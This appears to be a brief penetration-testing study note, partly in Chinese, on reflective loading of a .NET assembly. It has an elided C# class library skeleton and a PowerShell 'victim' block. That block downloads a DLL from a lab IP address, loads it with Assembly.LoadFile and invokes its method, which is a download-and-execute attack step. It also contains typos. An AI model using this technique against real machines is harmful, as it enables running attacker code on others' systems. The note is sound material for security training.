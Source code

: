 ## Reflective load

System.Reflection.Assembly 是.Net framework提供的一个访问metadata的帮助类 可以动态访问资源。

New Project - Class Library(.Net Framework)

```c#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ClassLibrary1
{
	public class class1
	{
		[DllImport("kernel32.dll")]
		...
		...
		...
		
		public static void runner()	
	}
}

```

vicitim
```powershell
(New-Object Ststem.Net.WebClient).DownloadFile('http://192.168.119.12/Classlibraru1.dll','classlibrary1.dll')

$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\offsec\ClassLibrary1.dll")
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0,$null)

```

